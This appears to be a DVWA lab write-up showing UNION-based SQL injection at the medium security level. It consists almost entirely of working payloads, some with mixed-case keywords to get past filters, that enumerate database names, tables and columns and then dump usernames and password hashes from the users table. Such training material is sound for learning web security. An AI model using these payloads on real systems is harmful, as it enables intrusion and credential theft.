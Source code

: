 ### Extract database name

```sql
id=1 union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata&Submit=Submit
```

![DVWA_MEDIUM_DB_NAMES.png](Images/DVWA_MEDIUM_DB_NAMES.png)

### Extract tables from database

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema=database()
```

![DVWA_MEDIUM_TABLENAME.png](Images/DVWA_MEDIUM_TABLENAME.png)

### Extract column name from database

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```

![DVWA_MEDIUM_COLUMN_NAME.png](Images/DVWA_MEDIUM_COLUMN_NAME.png)

### Extract column name from database with tablename

GET Data like **Table_Name:ColumnName**

```sql
union select 1, gRoUp_cOncaT(table_name, 0x3a, column_name)
from information_schema.columns
where table_schema=database()
group by table_name
```

#### Explanation:

- `table_name`: Represents the name of the table.
- `0x3a`: Hexadecimal for `:` to separate the table name from the column name.
- `column_name`: Represents the column name.
- `group by table_name`: Ensures that you concatenate columns for each table.

This query should return the `tablename:columnname` format as desired.

![DVWA_MEDIUM_TABLE_COLUMN_NAME.png](Images/DVWA_MEDIUM_TABLE_COLUMN_NAME.png)

### EXTRACT data from table

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![DVWA_MEDIUM_DATA_DUMP.png](Images/DVWA_MEDIUM_DATA_DUMP.png)
